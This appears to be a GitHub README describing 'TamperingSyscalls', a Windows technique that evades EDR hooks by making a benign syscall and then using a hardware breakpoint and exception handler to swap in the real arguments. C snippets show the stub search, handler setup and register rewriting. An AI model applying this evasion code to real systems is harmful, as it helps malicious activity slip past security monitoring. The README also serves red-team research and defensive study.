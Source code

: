 # TamperingSyscalls

**Tampering with syscalls.** 

1. Set a hardware breakpoint on the address of a syscall instruction which has the bytes `0f05` on the Dr0 register.
We can locate the stub with this quick memory byte search.
```c
BYTE stub[] = { 0x0F, 0x05 };
	for( unsigned int i = 0; i < (unsigned int)25; i++ )
	{
		if( memcmp( (LPVOID)((DWORD_PTR)function + i), stub, 2 ) == 0 ) {
			return (LPVOID)((DWORD_PTR)function + i);
		}
	}
  ```
2. Make a call to this function with no arguments. The EDR will return us the SSN as our call is not malicious.
3. The EDR then returns flow to us. 
4. We then hit our syscall breakpoint where we enter our previously registered exception handler.
```c
SetUnhandledExceptionFilter( OneShotHardwareBreakpointHandler );
```
5. This exception handler will disable the hardware breakpoint for Dr0 only if the Dr0 and RIP match.
6. If it is matching, it'll switch on the StatePointer, and get the corresponding arguments for this function.
7. It will then fix the arguments into the register, and stack.
```c
switch( StatePointer ) {
case 0:
ExceptionInfo->ContextRecord->Rcx =
  (DWORD_PTR)((NtGetContextThread*)(StateArray[StatePointer].arguments))->ThreadHandle;
  ExceptionInfo->ContextRecord->Rdx =
	(DWORD_PTR)((NtGetContextThread*)(StateArray[StatePointer].arguments))->pContext;
// put your other states here.
```

## Howto
You need to implement your function arguments and setup the state.
For example the arguments for NtGetContextThread in a structure.
```c
typedef struct {
	HANDLE			ThreadHandle;
	PCONTEXT		pContext;
} NtGetContextThread;
```
Then make a global copy
```c
NtGetContextThread pNtGetThreadContext;
```
Then add this to the state array in the position we will be calling it
```c
{ 0 , &pNtGetThreadContext},
```
Then in the exception handler you need to fix arguments for the corresponding function. 

It's possible to provide the EDR with fake telemetry, but that would take away the focus of what is being achieved here. I leave that to another day or a blog post.

### Limitations
There are a few functions we cannot set a HWBP on as these are used innately to set the HWBP.
We can only easily spoof the **first 4 function arguments R10, RDX, R8, R9** as these are the one's easy to replace. It is possible to do the remaining but I cannot be bothered frankly.

[TamperingSyscall's Blog Post](https://fool.ish.wtf/2022/08/tamperingsyscalls.html)
